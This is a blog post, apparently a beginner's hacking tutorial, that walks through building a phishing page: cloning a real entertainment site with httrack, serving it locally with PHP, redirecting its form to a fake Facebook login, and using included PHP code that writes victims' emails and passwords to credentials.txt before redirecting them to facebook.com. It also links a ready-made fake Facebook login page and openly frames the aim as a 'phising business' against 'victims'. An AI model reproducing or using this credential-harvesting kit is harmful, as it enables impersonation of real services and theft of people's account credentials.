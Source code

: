 ```yaml
---
layout: post
title: Create Our Own Phising Page
cover-img: "/assets/img/2021/2021-04-01/cover-1.jpeg"
tags: [hack, termux, phising]
---
```

As a noob if you are having hard time to create your own phising page then this guide is only for you :)

### Requirements :
- Termux Or Any Linux (I am using Termux)
- Some basics knowledge of commands
- Common sense

### Steps :
1. First of all you will have to install a package `httrack`.
```bash
apt install httrack
```
2. Ok lets choose our favorite webpage from internet or google. For example i searched a keyword "lovemeter" on google and got some cool results.

    <img src="/assets/img/2021/2021-04-01/01.jpg" width="90%">  
3. Then i opened very first result and saw very beautiful receipie for my Dish **Phising**.
    <img src="/assets/img/2021/2021-04-01/02.jpg" width="90%">
4. Ok i love it and copied URL & now want to clone it for my phising business so now it's time to use my weapon **httrack**. Here is simple command to clone my desired webpage 

    ```bash
    httrack https://www.prokerala.com/entertainment/love-meter/
    ```
well done httrack! i just got a new folder with name **www.prokerala.com** where all html files cloned. See what i got in my current directory. ( Note that your cloned website is only placed in **www.prokerala.com** folder , rest all things are related to httrack's own purpose )

    <img src="/assets/img/2021/2021-04-01/03.jpg" width="90%">
5. Now just run a local server to serve our new cloned website , well i am using php here but you can use whatever you like for hosting our site. In case you don't have **php** installed then just do `apt install php`

    ```bash
    # -n means no special configuration files used
    # -S <addr>:<port> ; will serve the index.html file from current directory
    cd www.prokerala.com/entertainment/love-meter
    php -n -S 127.0.0.1:8080
    ``` 

6. Now navigate to `http://127.0.0.1:8080` and you will see like this
    <img src="/assets/img/2021/2021-04-01/04.jpg" width="90%">

7. Ok all looks good but now i want that when my victim will click on **Calculate Love %** button, he will be redirected to my second phising page ( that phising page can be Facebook login , Instagram Login or Any Login Page ). Let's change behaviour of Button. Well we can see that button is a submit button of `<form>` element. I just searched for a keyword **Calculate Love %** in `index.html` file and after some scrolling i saw `<form>` element with `action=...`
    <img src="/assets/img/2021/2021-04-01/05.jpg" width="90%">
Just change the `action` value to any valid html or php file like `action="fblogin.html"` and yes make sure there is a file `fblogin.html` in same directory as cloned site. Then after pressing button , he will be redirected to `http://127.0.0.1:8080/fblogin.html` where `fblogin.html` is your fake Facebook Login Page ( You can clone facebook too )

### Some Tips :
* After cloning any social Login Page you can search for a word `action=` where you can change the value of `action`. Here is my php code i saved it with name `login.php` and edited **action** to `action="/login.php"` in my cloned Facebook ( everything is in same directory ).
```php
<?php                                                  
    if (isset($_POST['login'])) {                      
        $email = $_POST['uname'];                      
        $pass = $_POST['pwd'];                         
        $fp = fopen('credentials.txt', 'a');
        fwrite($fp, " ".$email.' = ');
        fwrite($fp, $pass." ");
        fclose($fp);                                   
        ?>
        <script>window.alert('Bhadhayi ho tumhe pyar ho gya hai 100%');
        </script>
        <script>window.location="https://facebook.com";</script> 
<?php                                                 
    }
?>
```
After login a new file will be created with name `credentials.txt` where credentials will be saved. Well i am also giving my Facebook login page on [Pastebin](https://pastebin.com/tEQHSLtv) which is a single All-In-One file.

* You can always adjust depthness of cloning by using flag `--depth=N` where `N` is level of depthness. Why we need this ? Well fortunately the website i cloned was simple and contains html files but what when website contains many external CSS files for styling ? then you will have to adjust depthness of cloning to clone **CSS** files , assets like images etc. We need this option also when we don't want to clone whole website but only some portion of it. The higher number `N` , the more deep cloning will be done.

    ```bash
    httrack --depth=1 https://wwww.website.com/ 
    ```
